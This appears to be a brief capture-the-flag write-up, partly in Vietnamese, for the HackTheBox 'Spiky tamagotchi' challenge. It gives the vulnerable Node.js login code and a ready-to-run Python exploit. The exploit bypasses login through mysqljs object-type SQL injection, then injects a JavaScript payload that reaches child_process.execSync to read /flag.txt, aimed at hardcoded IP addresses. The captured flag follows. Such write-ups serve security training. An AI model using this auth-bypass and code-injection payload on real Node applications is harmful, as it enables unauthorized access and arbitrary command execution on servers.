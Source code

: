 # Spiky tamagotchi

Vul sqli + RCE


```js
    async loginUser(user, pass) {
        return new Promise(async(resolve, reject) => {
            let stmt = 'SELECT username FROM users WHERE username = ? AND password = ?';
            this.connection.query(stmt, [user, pass], (err, result) => {
                if (err || result.length == 0)
                    reject(err)
                resolve(result)
            })
        });
    }
```
[sqli](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) bởi vì user và pass được truyền vào ở query() mà không kiểm tra kiểu dữ liệu:

```py
import requests

s = requests.Session()
burp0_url = "http://139.59.163.221:31505/api/login"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://134.209.177.202:30560", "Referer": "http://134.209.177.202:30560/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_json={"password": {"password": 1}, "username": {"username": 1}}
s.post(burp0_url, headers=burp0_headers, json=burp0_json)


burp0_url = "http://139.59.163.221:31505/api/activity"
burp0_json={"activity": "', hp=1, w=1, hs=1){ m=this.constructor.constructor(`return process.mainModule.require('child_process').execSync('cat /flag.txt', {encoding:'utf-8'})`)(); hp=5; w=3; hs=6;return {m, hp, w, hs}//", "happiness": "50", "health": "60", "weight": "42"}
r = s.post(burp0_url, headers=burp0_headers, json=burp0_json)
print(r.text)
```

**HTB{3sc4p3d_bec0z_n0_typ3_ch3ck5}**